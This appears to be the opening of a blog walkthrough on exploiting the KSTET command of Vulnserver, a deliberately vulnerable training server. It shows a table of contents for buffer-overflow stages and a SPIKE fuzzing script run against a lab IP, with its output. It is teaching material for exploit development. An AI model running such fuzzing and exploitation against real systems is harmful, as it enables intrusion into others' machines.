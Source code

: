 ```yaml
---
title: "Vulnserver KSTET - Staged exploitation and Socket reusing"
classes: wide
tag: 
  - "windows exploitation"
  - "vulnserver"
header:
  teaser: /assets/images/win-exp/windows-exp.png
ribbon: blue
description: "A simple walkthrough on  Vulnserver KSTET using socket reusing and staged exploitation technique"
categories: ['Exploit-Development','Windows-Exploitation','Vulnserver']
---
```



- [Prologue](#prologue)
- [Spiking the vulnserver](#spiking-the-vulnserver)
- [Analysing the source code](#analysing-the-source-code)
- [Fuzzing the server](#fuzzing-the-server)
- [Finding offset](#finding-offset)
- [Overwriting instruction pointer](#overwriting-instruction-pointer)
- [Finding bad characters](#finding-bad-characters)
- [Redirecting code execution](#redirecting-code-execution)
- [Stack pivoting](#stack-pivoting)
- [Socket reusing](#socket-reusing)
- [Adding socket reuse stager](#adding-socket-reuse-stager)
- [Crafting shellcode](#crafting-shellcode)
- [Exploitation](#exploitation)

## Prologue

On last blog, we have exploited the ```GTER``` command using ```Socket Reuse Stager``` and we are going to perform the same attack on ```KSTET``` command to gain access on target machine

I had tried exploiting with ```egg hunters``` on this command, but it didn't work because of some opcodes

I had used egg hunter with ```Wow64``` and my VM is running on ```x64 bit architecture```

If anyone succeeded in exploiting this command using these, kindly ping me.. It would be a great help

## Spiking the vulnserver

Creating a ```spike script``` for spiking using ```generic_send_tcp```,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ cat kstet.spk      
s_readline();
s_string("KSTET ");
s_string_variable("0");
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ generic_send_tcp 192.168.116.140 9999 kstet.spk 0 0 
Total Number of Strings is 681
Fuzzing
Fuzzing Variable 0:0
Fuzzing Variable 0:1
Variablesize= 5004
Fuzzing Variable 0:2
Variablesize= 5005
Fuzzing Variable 0:3
Variablesize= 21
```